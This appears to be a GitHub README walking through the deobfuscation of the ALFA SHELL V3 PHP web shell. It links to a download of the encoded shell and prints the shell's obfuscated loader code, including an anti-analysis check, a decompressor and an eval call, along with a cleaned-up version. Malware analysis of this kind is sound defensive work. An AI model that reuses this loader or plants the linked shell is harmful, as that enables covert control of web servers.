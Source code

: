 # DeObfuscation ALFA SHELL V3

### How to decode ALFA SHELL V3?

1 - Download encode shell : http://getalfa.rf.gd/?i=1 <br />

2 - Open file `alfav3-encoded.php` we will see `$MuSoTSurZq='e'.'v'.'al'.'';`  <br />

![Image 1](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/1.png) <br />

### Start Stage 1

3 - Replace`$MuSoTSurZq='e'.'v'.'al'.'';` to `$MuSoTSurZq='echo';` <br /> 

![Image 2](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/2.png) <br />

4 - Now we should run `php alfav3-encoded.php > decode_stage_1.php` <br />


5 - Again encoded ALFA, We see intersting message :

``` /* You're killing me again 🎧 Am I still in your head ? 🎧 You used to light me up 🎧 Now you shut me down -- Solevisible */ ```

This message of music `Archive - Again ` Music linke : https://www.youtube.com/watch?reload=9&v=NF52fcoIqg4

### Start Stage 2

6 -
```php
$阿尔法词=十六进制转换('666736736265687075726134636f5f746e646978');$函数存在=$阿尔法词{0}.$阿尔法词{8}.$阿尔法词{16}.$阿尔法词{12}.$阿尔法词{15}.$阿尔法词{18}.$阿尔法词{13}.$阿尔法词{16}.$阿尔法词{14}.$阿尔法词{5}.$阿尔法词{19}.$阿尔法词{18}.$阿尔法词{3}.$阿尔法词{15}.$阿尔法词{3};function 十六进制转换($十六进制){$串='';for($计数=0;$计数<strlen($十六进制);$计数+=2)$串.=chr(hexdec(substr($十六进制,$计数,2)));return $串;}function 编码器($串){return __ZGVjb2Rlcg($串);}function 随机($串){return ord($串);}function 内容($串){return @file_get_contents($串);}if(!$函数存在("阿尔法功能启动")){function 阿尔法功能启动($阿尔法变量的一个){$阿尔法变量的一个=编码器($阿尔法变量的一个);$阿尔法功能启动=0;$阿尔法两个变量=0;$阿尔法变三=0;$阿尔法四个变量=(随机($阿尔法变量的一个[1])<<8)+随机($阿尔法变量的一个[2]);$阿尔法五个变量=3;$阿尔法六个变量=0;$阿尔法七个变量=16;$阿尔法变八="";$阿尔法九变=strlen($阿尔法变量的一个);$阿尔法变量十=__FILE__;$阿尔法变量十=内容($阿尔法变量十);$阿尔法变量十一=0;preg_match(编码器("LyhwcmludHxzcHJpbnR8ZWNobykv"),$阿尔法变量十,$阿尔法变量十一);for(;$阿尔法五个变量<$阿尔法九变;){if(count($阿尔法变量十一)) exit;if($阿尔法七个变量==0){$阿尔法四个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法四个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++]);$阿尔法七个变量=16;}if($阿尔法四个变量&0x8000){$阿尔法功能启动=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<4);$阿尔法功能启动+=(随机($阿尔法变量的一个[$阿尔法五个变量])>>4);if($阿尔法功能启动){$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])&0x0F)+3;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变三++)$阿尔法变八[$阿尔法六个变量+$阿尔法变三]=$阿尔法变八[$阿尔法六个变量-$阿尔法功能启动+$阿尔法变三];$阿尔法六个变量+=$阿尔法两个变量;}else{$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法两个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++])+16;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变八[$阿尔法六个变量+$阿尔法变三++]=$阿尔法变量的一个[$阿尔法五个变量]);$阿尔法五个变量++;$阿尔法六个变量+=$阿尔法两个变量;}}else $阿尔法变八[$阿尔法六个变量++]=$阿尔法变量的一个[$阿尔法五个变量++];$阿尔法四个变量<<=1;$阿尔法七个变量--;if($阿尔法五个变量==$阿尔法九变){$阿尔法变量十=implode("",$阿尔法变八);$阿尔法变量十="?".">".$阿尔法变量十;return $阿尔法变量十;}}}
}
print_r(阿尔法功能启动(""));
eval(阿尔法功能启动("QAAAPD9waH .... "));
```
I change code of stage 2 of chines language `decode_stage_2.php`: 

```php

<?php

$txjCEtOsnV='f'.'u'.'nc'.'t'.'io'.'n'.'_'.'exist'.'s';
$AiFWszqQIS='cha'.'r'.'Cod'.'eAt';$XBHjjUIPPF='echo';
$HchfyPfIrM='gzinfl'.'ate';if(!$txjCEtOsnV('b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'')){function VVjQyGUShF($data){if(empty($data))return;$b64='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';$o1 = $o2 = $o3 = $h1 = $h2 = $h3 = $h4 = $bits = $i = 0;$ac = 0;$enc = '';$tmp_arr = array();if(!$data){return $data;}do{$o1 = $AiFWszqQIS($data, $i++);$o2 = $AiFWszqQIS($data, $i++);$o3 = $AiFWszqQIS($data, $i++);$bits = $o1 << 16 | $o2 << 8 | $o3;$h1 = $bits >> 18 & 0x3f;$h2 = $bits >> 12 & 0x3f;$h3 = $bits >> 6 & 0x3f;$h4 = $bits & 0x3f;$tmp_arr[$ac++] = charAt($b64, $h1).charAt($b64, $h2).charAt($b64, $h3).charAt($b64, $h4);} while ($i < strlen($data));$enc = implode($tmp_arr, '');$r = (strlen($data) % 3);return ($r ? substr($enc, 0, ($r - 3)) : $enc).substr('===', ($r || 3));}function charCodeAt($data, $char){ return ord(substr($data, $char, 1));}function charAt($data, $char){return substr($data, $char, 1);}}else{function VVjQyGUShF($s){$b='b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'';return $b($s);}}if(!$txjCEtOsnV('ba'.'se6'.'4_d'.'e'.'c'.'ode')){function prGVlydQcW($input){if(empty($input))return;$keyStr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";$i = 0;$output = "";$input = preg_replace("[^A-Za-z0-9\+\/\=]", "", $input);do{$enc1 = strpos($keyStr, substr($input, $i++, 1));$enc2 = strpos($keyStr, substr($input, $i++, 1));$enc3 = strpos($keyStr, substr($input, $i++, 1));$enc4 = strpos($keyStr, substr($input, $i++, 1));$chr1 = ($enc1 << 2) | ($enc2 >> 4);$chr2 = (($enc2 & 15) << 4) | ($enc3 >> 2);$chr3 = (($enc3 & 3) << 6) | $enc4;$output = $output . chr((int) $chr1);if ($enc3 != 64) {$output = $output . chr((int) $chr2);}if ($enc4 != 64) {$output = $output . chr((int) $chr3);}$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";}while($i < strlen($input));return $output;}}else{function prGVlydQcW($s){$b='ba'.'se6'.'4_d'.'e'.'c'.'ode';return $b($s);}}$lOUhvmLHrl='c'.'reat'.'e'.'_'.'funct'.'i'.'on';$BLKLPTRwbV = $lOUhvmLHrl('$lY',$XBHjjUIPPF.'('.$HchfyPfIrM.'('.'pr'.'G'.'V'.'lyd'.'Q'.'c'.'W'.'($lY)'.')'.')'.';');


$keys=func_1('666736736265687075726134636f5f746e646978');

$split_keys=$keys{0}.$keys{8}.$keys{16}.$keys{12}.$keys{15}.$keys{18}.$keys{13}.$keys{16}.$keys{14}.$keys{5}.$keys{19}.$keys{18}.$keys{3}.$keys{15}.$keys{3};
function func_1($arg_1){
    $串='';
    for($i=0;$i<strlen($arg_1);$i+=2)
    $串.=chr(hexdec(substr($arg_1,$i,2)));
    return $串;
}

function __ZGVjb2Rlcg($s)
{
    return prGVlydQcW($s);
}

function func_2($串){
        return __ZGVjb2Rlcg($串);
}
function func_3_ord($串){
        return ord($串);
}
function func_4($串){
        return @file_get_contents($串);
}

if(!$split_keys("func_5")) {
        $func_5_arg = "";
            $func_5_arg=func_2($func_5_arg);
            $func_5=0;
            $counter=0;
            $Counter_5=0;
            $var_2=(func_3_ord($func_5_arg[1])<<8)+func_3_ord($func_5_arg[2]);
            $Counter_2=3;
            $Counter_3=0;
            $Counter_4=16;
            $ret_str="";
            $get_length_arg=strlen($func_5_arg);
            $get_files=__FILE__;
            $get_files=func_4($get_files);
            $get_files一=0;
            preg_match(func_2("LyhwcmludHxzcHJpbnR8ZWNobykv"),$get_files,$get_files一);

            for(;$Counter_2<$get_length_arg;){
         
                if($Counter_4==0){
                    $var_2=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                    $var_2+=func_3_ord($func_5_arg[$Counter_2++]);
                    $Counter_4=16;
                }
                if($var_2&0x8000){
                    $func_5 = (func_3_ord($func_5_arg[$Counter_2++])<<4);
                    $func_5 += (func_3_ord($func_5_arg[$Counter_2])>>4);
                    if($func_5){
                        $counter=(func_3_ord($func_5_arg[$Counter_2++])&0x0F)+3;
                        for($Counter_5=0;$Counter_5<$counter;$Counter_5++)
                            $ret_str[$Counter_3+$Counter_5] = $ret_str[$Counter_3-$func_5+$Counter_5];
                            $Counter_3+=$counter;
                        }
                        else{
                            $counter=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                            $counter+=func_3_ord($func_5_arg[$Counter_2++])+16;
                            for($Counter_5=0;$Counter_5<$counter;
                            $ret_str[$Counter_3+$Counter_5++]=$func_5_arg[$Counter_2]);
                            $Counter_2++;
                            $Counter_3+=$counter;
                        }
                    }
                    else
                    $ret_str[$Counter_3++]=$func_5_arg[$Counter_2++];
                    $var_2<<=1;
                    $Counter_4--;
                    if($Counter_2==$get_length_arg){
                        echo $ret_str;
                    }
        }
}

```

7 - Again we run `php decode_stage_2.php > final_alfashell.php` seccessfully decode ALFA SHELL :),

###  Decode ALFA SHELL V3:

![Image 3](https://github.com/raminfp/DeObfuscation_ALFA_SHELL_V3/blob/master/3.png)

Thanks, <br />
Ramin - kernel security engineering 
